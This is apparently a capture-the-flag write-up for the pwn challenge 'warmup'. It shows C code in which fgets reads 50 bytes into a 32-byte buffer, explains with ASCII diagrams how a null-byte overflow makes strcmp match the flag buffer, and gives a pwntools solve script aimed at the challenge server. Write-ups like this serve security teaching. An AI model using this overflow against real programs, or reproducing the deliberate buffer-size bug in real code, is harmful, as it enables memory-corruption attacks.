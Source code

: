 # warmup

Category: pwn

Points: 316

Solves: 17

The following code is provided:

```c
#include <stdio.h>
int main() {
    char input[32];
    char flag[32];
    // read flag file
    FILE *f = fopen("flag", "r");
    fgets(flag, 32, f);
    fclose(f);
    // read the user's guess
    fgets(input, 0x32, stdin);
    // if user's guess matches the flag
    if (!strcmp(flag,input)) {
        puts("Predicted!");
        system("cat flag");
    } else puts("Your flag was wrong :(");
}
```

We observe that a buffer overflow occurs when `fgets(input, 0x32, stdin);` is executed. This is because `0x32 = 50`, but the buffer is only 32 bytes long. However, since the `flag` buffer is also 32 bytes long, we do not have enough bytes to overwrite `[rsp]` in order to control `$rip` in a ret2<anything\> attack, so we will need to think of an alternate solution.

The buffers `flag` and `input` are compared against each other using `strcmp`, and if they are equal, the flag is printed. However, without knowing the flag, how are we going to get these two buffers be equal??

We can use the buffer overflow to overwrite part of the `flag` buffer. However, we can only write the first 18 bytes of the buffer (50-32=18), so we can't just overwrite both buffers with 'a's. 

However, strings in C are null terminated - they end with a null byte, which has the value 0. So in C, the strings "flag\0aaaaa" and "flag\0bbbbb" will be `strcmp` equal to each other. Using this property, we can add a null byte before the 18th byte of the second buffer. This will 'trick' `strcmp` into thinking that the string in the second buffer has ended, while in fact there are another 12 bytes of flag in the buffer.

Here's a visual representation of the attack:

Layout of the 2 buffers:

```

0                          32                         64
┌──────────────────────────┬──────────────────────────┐
│                          │                          │
│        Input buffer      │        Flag buffer       │
└──────────────────────────┴──────────────────────────┘
```

What happens normally when a user enters stuff

```
0                          32                         64
┌──────────────────────────┬──────────────────────────┐   
│                          │                          │
│ Our input goes here!\0   │  IRS{THE_FLAG!!!!!}\0    │
└──────────────────────────┴──────────────────────────┘
```

Note: the \0 is a null byte. You can't see null bytes but we will use \0 to represent them

What happens when you enter more than 32 bytes of input (not to scale):

```
0                          32                         64
┌──────────────────────────┬──────────────────────────┐
│                          │                          │
│ AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\0AG!!!!!}\0    │
└─────────────────────────────────────────────────────┘
```

The input buffer overflows and overwrites the start of the flag buffer. But we cannot overwrite everything!

The attack (not to scale):

```

0                          32                         64
┌──────────────────────────┬──────────────────────────┐
│                          │                          │
│   AAAAAAAAAAAAAA\0PADDINGAAAAAAAAAAAAAA\0!!!!}\0    │
└───▲──────────────▲───────▲──────────────▲───────────┘
    │    input     │       │    flag      │
    └──────────────┘       └──────────────┘
```

Since `strcmp` only compares `input` and `flag` up to the null byte, it thinks the 2 strings are equal and gives us the flag!

However, we must ensure that we have sufficient padding that the AAAAA.. lines up correctly with the start of the flag buffer.

## Solve script

```python

from pwn import *

e = ELF("./chal")
context.binary = e

def setup():
    #p = e.process()
    p = remote("challs.sieberrsec.tech",3476)
    return p
if __name__ == '__main__':
    p = setup()
    # For the first buffer: 16 'a's, a null byte and 15 bytes of padding -> 32 bytes in total
    # For the second buffer: 16 'a's and a null byte
    p.send(b"a"*16+b"\0"+b"\0"*15 + b"a"*16+b"\0")


    p.interactive()
```

## Comments

Idk why I decided to do ASCII art for this writeup, it kinda looks nice but quite pain to make. Hopefully it looks nice on github.